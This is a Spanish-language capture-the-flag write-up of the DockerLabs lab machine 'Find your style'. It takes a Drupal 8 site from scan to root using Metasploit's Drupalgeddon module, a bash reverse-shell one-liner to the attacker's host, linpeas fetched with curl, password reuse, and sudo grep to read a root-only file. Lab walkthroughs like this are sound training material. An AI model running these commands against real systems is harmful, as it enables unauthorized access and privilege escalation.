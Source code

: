 # Find your style

# Enumeración

Empezamos con un escaneo de los puertos.

`sudo nmap -p- --open -sC -sS -sV --min-rate=5000 -n -Pn -vvv 172.17.0.2 -oN FindYourStyle`  

- `-p-` : Todos los puertos
- `--open` : Todos los puertos abiertos
- `-sC` : Escaneo de todos los scripts
- `-sS` : Escaneo de todos los servicios
- `-sV` : Escaneo de todas las versiones de los servicios
- `--min-rate 5000` : Establece mínimo envío de paquetes mínimos 5000/s
- `-n` : No aplica resolución DNS
- `-Pn` : Omisión de detección de hosts
- `-vvv` : Verbose - Muestra toda la información

# Resultado escaneo  

![F](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/findyourstyle/F_1.jpg)     

Solo tenemos el puerto 80 abierto y, por lo que podemos ver, estamos ante un Drupal 8.  

![F](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/findyourstyle/F_2.jpg)   

Lo que podemos hacer es ver si hay algún exploit que podamos lanzar.  
Abrimos Metasploit y buscamos con el comando `search drupal`.  

![F](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/findyourstyle/F_3.jpg)     

Usaremos el exploit 1, Drupalgeddon.  
Completaremos las opciones y ejecutaremos el exploit.  

![F](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/findyourstyle/F_4.jpg)   

Perfecto!  
Hemos obtenido una sessión meterpreter.  

![F](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/findyourstyle/F_5.jpg)     

Ahora, lo que haremos será enviarnos una reverse shell a nuestra máquina Kali para poder trabajar más cómodamente.  
Para ello, ejecutaremos el comando `shell`, luego escribiremos `/bin/bash` y, por último, después de habernos puesto a la escucha en nuestra máquina Kali, escribiremos:  

`bash -i >& /dev/tcp/172.17.0.8/7070 0>&1`  

Perfecto! 
Ya estamos dentro!  

![F](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/findyourstyle/F_6.jpg)       

Ahora intentaremos escalar privilegios.
Ejecutamos los comandos `sudo -l` y `find / -perm -4000 2>/dev/null`, pero no obtenemos nada interesante.  

![F](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/findyourstyle/F_7.jpg)       

Revisamos también las carpetas clásicas tmp y opt, pero tampoco encontramos nada.    

![F](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/findyourstyle/F_8.jpg)   

Lo que haremos será subir **linpeas** para ver si podemos obtener más información.  
Para ello, montaremos un servidor Python en nuestra máquina Kali con el comando:  

`sudo python3 -m http.server 80`  

Después utilizaremos la herramienta **curl**, ya que wget no está disponible.   

![F](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/findyourstyle/F_9.jpg)    

Ahora daremos permisos de ejecución con el comando `chmod +x linpeas.sh` y lo ejecutaremos.  
Al revisar los resultados, nos llama la atención este punto.   

![F](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/findyourstyle/F_10.jpg)      

Ahora revisaremos el archivo **/etc/passwd** para ver qué usuarios hay en esta máquina.   

Observamos que hay un usuario llamado **ballenita**.  

![F](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/findyourstyle/F_11.jpg)   

Lo que haremos será intentar iniciar sesión como ballenita con la contraseña que hemos encontrado.    

![F](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/findyourstyle/F_12.jpg)   

¡Perfecto!  
Ahora intentaremos escalar a root.  
Ejecutamos el comando `sudo -l`.  

![F](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/findyourstyle/F_13.jpg)   

Bien, ahora revisamos la web de GTFOBins y vemos que podemos aprovechar el binario grep.  

![F](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/findyourstyle/F_14.jpg)   

Lo que haremos será intentar leer en el directorio home de root para ver si hay algún fichero 'interesante'.  
Ejecutamos el siguiente comando:  

`sudo -u root /bin/ls /root/`  

![F](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/findyourstyle/F_15.jpg)   

¡Bien!  
Ahora intentaremos leer el contenido con el comando grep, ejecutando:  

`sudo grep '' /root/secretitomaximo.txt`

![F](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/findyourstyle/F_16.jpg)     

Ahora probaremos a iniciar sesión como root con esta posible contraseña que hemos descubierto.   

![F](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/findyourstyle/F_17.jpg)     

¡Y listo!  
¡Ya somos root!  


















